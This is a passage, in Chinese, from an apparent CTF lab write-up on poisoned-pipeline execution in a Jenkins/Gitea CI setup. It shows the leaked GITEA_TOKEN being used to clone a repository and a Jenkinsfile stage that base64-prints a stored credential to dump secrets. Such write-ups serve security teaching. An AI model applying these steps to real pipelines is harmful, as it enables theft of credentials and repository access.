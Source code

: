 然后提交合并到原仓库，触发名字wonderland-caterpillar-test的pipeline  
[![1656742841700.png](assets/1702372834-b873bacdf9291baeedeeb6e7e70fa791.png)](https://storage.tttang.com/media/attachment/2022/07/06/d31162e8-8c78-48d1-ba10-258d9c5a34e7.png)  
在输出的环境变量中可找到GITEA\_TOKEN  
之后使用该Gitea令牌克隆原仓库

```plain
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@192.168.249.131:3000/Wonderland/caterpillar.git
```

修改克隆的仓库Jenkinsfile文件，输出其中的Flag

```plain
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

之后再创建分支并提交、合并，即可触发另一个wonderland-caterpillar-prod的管道  
[![1656748696026.png](assets/1702372834-76d74e689f339894b005d9e7c225fcff.png)](https://storage.tttang.com/media/attachment/2022/07/06/c27f9fd9-e57d-4978-9c1c-fc1d719dd37f.png)  
再来看看这两个管道有什么区别，首先是第一个wonderland-caterpillar-test的管道，触发该管道需要来自fork的合并  